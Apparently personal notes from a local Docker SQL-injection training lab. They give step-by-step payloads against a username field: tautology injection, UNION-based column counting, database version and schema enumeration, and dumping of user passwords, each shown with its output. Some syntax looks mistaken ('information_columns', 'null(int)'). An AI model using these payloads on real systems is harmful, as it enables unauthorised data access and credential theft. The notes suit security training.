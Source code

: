 
to run lab

```sh
sudo docker-compose up
```

to run the docker container as background process use

```sh
sudo docker-compose up -d
```
-d:detach

to reset all the labs go to /init.php

to check what containers are running:

```sh
sudo docker ps -a
```

to stop containers

```sh
sudo  docker-compose stop
```


LAB

Check for everything we are supplying like username, password or even cookies

enter a valid username

i/p:
jeremy
o/p:
Username: jeremy - Email: jeremy@example.com

i/p: '
o/p:No users found

i/p: "
o/p:No users found


i/p: jeremy"
o/p:No users found

probably query in backend
Select Email 
From Users
Where username="i/p"

i/p: jeremy' or 1=1#
o/p:
Username: jeremy - Email: jeremy@example.com

Username: jessamy - Email: jessamy@example.com

Username: bob - Email: bob@example.com

In SQL
\# or -- - are called terminator and do not evaluate anything after that

we provide ' after jeremy to terminate the username then provide logical OR operator and write another query 1=1 which is a true statement so when the Query  

Select Email 
From Users
Where username="i/p"
OR 
1=1 

it will always be true and we get entire DB

------
If we use UNION we can only select same number of columns as in first query eg:

Select username,passwd UNION Select passwd,age from ...

***we have to select same number of attributes/columns***

--------

##To find number of columns in target DB

i/p:
jeremy' union select null#
o/p:
No users found

i/p:
jeremy' union select null,null#
o/p:
No users found

i/p:
jeremy' union select null,null,null#
o/p:
Username: jeremy - Email: jeremy@example.com

Username: - Email:

so we can tell there are 3 columns in the table

i/p:
jeremy' union select null,null,version()#
o/p:
Username: jeremy - Email: jeremy@example.com

Username: - Email: 8.0.33

we use version() as  third parameter to get version of database 
and we get the version as 8.0.33


i/p:
jeremy' union select null,null,table_name from information_schema.tables #

o/p:
Username: jeremy - Email: jeremy@example.com

Username: - Email: ADMINISTRABLE_ROLE_AUTHORIZATIONS

Username: - Email: APPLICABLE_ROLES

Username: - Email: CHARACTER_SETS

Username: - Email: CHECK_CONSTRAINTS

Username: - Email: COLLATIONS

Username: - Email: COLLATION_CHARACTER_SET_APPLICABILITY

Username: - Email: COLUMNS

Username: - Email: COLUMNS_EXTENSIONS


i/p:
jeremy' union select null,null,column_name from information_columns.columns #
o/p:

Username: jeremy - Email: jeremy@example.com

Username: - Email: USER

Username: - Email: HOST

Username: - Email: GRANTEE

Username: - Email: username

Username: - Email: password

Username: - Email: mfa

Username: - Email: lockout_count

Username: - Email: registration

Username: - Email: positionx

Username: - Email: positiony

Username: - Email: destinationx

Username: - Email: destinationy

Username: - Email: address

Username: - Email: email

Username: - Email: session

Username: - Email: image

Username: - Email: price

Username: - Email: message

i/p:
jeremy' union select null,null,password from injection0x01#

o/p:
Username: jeremy - Email: jeremy@example.com

Username: - Email: jeremyspassword

Username: - Email: jessamyspassword

Username: - Email: bobspassword

we get all passwords and not just jeremy's


sometimes null dosent work so we need to add dat type of the column

**jeremy' union select null(int),null,password from injection0x01#**

